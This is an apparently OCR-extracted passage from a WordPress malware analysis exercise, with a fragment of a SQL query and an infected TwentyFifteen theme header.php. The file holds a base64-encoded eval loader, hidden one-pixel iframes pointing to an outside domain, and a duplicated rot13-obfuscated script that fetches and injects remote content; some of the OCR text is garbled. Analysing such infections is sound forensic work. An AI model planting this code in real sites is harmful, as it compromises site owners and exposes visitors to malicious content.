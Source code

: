 ```
SELECT post_content
FROM wp_posts
WHERE post_content like '%<%' [.........]
```

#### 14-Wordpress + Malware analysis

Below is the content of a TwentyFifteen WordPress theme's header.php:
```
<?php/**   
        *  The template for displaying the header *   
        *  Displays all of the head element and everything up until the "site- content" div.  
         *  
         * @package WordPress  
          
* @subpackage Twenty_Fifteen * @since Twenty Fifteen 1.0 */   
?><!DOCTYPE html>  
<?php eval(base64_decode('JGY9ZGlybmFtZShfX2ZpbGVfXykuJy9pbWFnZXMvd3BfbWVudV90b 3AucG5nJzskYj1nZXRfb3B0aW9uKCd3cF90aGVtZV9tZW51X2ZpcnN0Jyk7aWYgKGZpbGVfZX hpc3RzKCRmKSBhbmQgISRiKXskZnAgPSBmb3BlbigkZiwiciIpOyRzID0gZnJlYWQoJGZwLGZ pbGVzaXplKCRmKSk7ZmNsb3NlKCRmcCk7ZXZhbCgnJG09Jy5nenVuY29tcHJlc3Moc3RyaXBz bGFzaGVzKCRzKSkuJzsnKTskaTA9JG1bMF07JGkxPSRtWzFdOyRpMj0kbVsyXTskaTM9JG1bM 107dW5zZXQoJG1bMF0sJG1bMV0sJG1bMl0pO3NodWZmbGUoJG0pOyRjc1swXT0kaTAuJGkxLi RtWzBdLiRpMi4kbVsxXS4kaTIuJG1bMl0uJGkzOyRjc1sxXT0kaTAuJGkxLiRtWzNdLiRpMi4 kbVs0XS4kaTIuJG1bNV0uJGkzO2FkZF9vcHRpb24oJ3dwX3RoZW1lX21lbnVfZmlyc3QnLGJh c2U2NF9lbmNvZGUoJGNzWzBdKSwnJywnbm8nICk7YWRkX29wdGlvbignd3BfdGhlbWVfbWVud V9zZWNvbmQnLGJhc2U2NF9lbmNvZGUoJGNzWzFdKSwnJywnbm8nICk7fWZ1bmN0aW9uIGZuKC l7aWYoKGlzX2hvbWUoKSkmJiEoaXNfcGFnZWQoKSkpICRuPWJhc2U2NF9kZWNvZGUoZ2V0X29 wdGlvbignd3BfdGhlbWVfbWVudV9maXJzdCcpKTtlbHNlICRuPWJhc2U2NF9kZWNvZGUoZ2V0 X29wdGlvbignd3BfdGhlbWVfbWVudV9zZWNvbmQnKSk7cmV0dXJuICRuO30kX0dFVFsnZ19fJ 109MTtmdW5jdGlvbiBjYigkcCl7ZWNobyAoJF9HRVRbJ2dfXyddPjApP2ZuKCk6Jyc7JF9HRV RbJ2dfXyddPTA7cmV0dXJuICRwO31pZiAoJGIpIGFkZF9hY3Rpb24oJ3dpZGdldF90aXRsZSc   
sJ2NiJyk7'));?><html <?php language_attributes(); ?> class="no-js"> <head>   
<meta charset="<?php bloginfo( 'charset' ); ?>"><meta name="viewport" content="width=device-width"><link rel="profile" href="http://gmpg.org/xfn/11"><link rel="pingback" href="<?php bloginfo( 'pingback_url' ); ?>"> <!--[if lt IE 9]><script src="<?php echo esc_url( get_template_directory_uri() );   
?>/js/html5.js"></script>  
      <![endif]-->  
<?php wp_head(); ?><iframe src="https://tehnofaq.work/css/682c" width="1" height="1" frameborder="0"></iframe><iframe src="https://tehnofaq.work/css/682c" width="1" height="1" frameborder="0"></iframe><iframe src="https://tehnofaq.work/css/682c" width="1" height="1" frameborder="0"></iframe><iframe src="https://tehnofaq.work/css/682c" width="1" height="1" frameborder="0"></iframe></head>   
<body <?php body_class(); ?>><? if(!$linkskdsdsd){ = 'true'; $servername = $_SERVER["SERVER_NAME"]; $url = str_rot13('uggc://scrq8.bet/flfgrz/yvaxbixn_arj.cuc?qbabe='); $cachefile = dirname($_SERVER['SCRIPT_FILENAME']).'/cached- script/'.md5($servername . $_SERVER["REQUEST_URI"]); $cachetime = 86400*3; if (file_exists($cachefile) && time() - $cachetime < filemtime($cachefile)) { echo file_get_contents($cachefile,1); }else{ if (!file_exists(dirname($_SERVER['SCRIPT_FILENAME']).'/cached-script')) { mkdir(dirname($_SERVER['SCRIPT_FILENAME']).'/cached-script', 0777, true); } if(function_exists('curl_version')){ $handle = curl_init(); curl_setopt($handle, CURLOPT_URL, $url . $servername . $_SERVER["REQUEST_URI"]); curl_setopt($handle, CURLOPT_RETURNTRANSFER, TRUE); $adasd = curl_exec($handle); $datalinks = $adasd; curl_close($handle); }else{ $datalinks = file_get_contents($url . $servername . $_SERVER["REQUEST_URI"]); } $csached = fopen($cachefile, 'w'); fwrite($csached, $datalinks); fclose($csached); echo $datalinks; }} ?><? if(!$linkskdsdsd){ = 'true'; $servername = $_SERVER["SERVER_NAME"]; $url = str_rot13('uggc://scrq8.bet/flfgrz/yvaxbixn_arj.cuc?qbabe='); $cachefile = dirname($_SERVER['SCRIPT_FILENAME']).'/cached- script/'.md5($servername . $_SERVER["REQUEST_URI"]); $cachetime =   
86400*3; if (file_exists($cachefile) && time() - $cachetime < filemtime($cachefile)) { echo file_get_contents($cachefile,1); }else{ if (!file_exists(dirname($_SERVER['SCRIPT_FILENAME']).'/cached-script')) { mkdir(dirname($_SERVER['SCRIPT_FILENAME']).'/cached-script', 0777, true); } if(function_exists('curl_version')){ $handle = curl_init(); curl_setopt($handle, CURLOPT_URL, $url . $servername . $_SERVER["REQUEST_URI"]); curl_setopt($handle, CURLOPT_RETURNTRANSFER, TRUE); $adasd = curl_exec($handle); $datalinks = $adasd; curl_close($handle); }else{ $datalinks = file_get_contents($url . $servername . $_SERVER["REQUEST_URI"]); } $csached = fopen($cachefile, 'w'); fwrite($csached, $datalinks); fclose($csached); echo $datalinks; }} ?>   
<div id="page" class="hfeed site"><a class="skip-link screen-reader-text" href="#content"><?php _e(   
'Skip to content', 'twentyfifteen' ); ?></a>   
```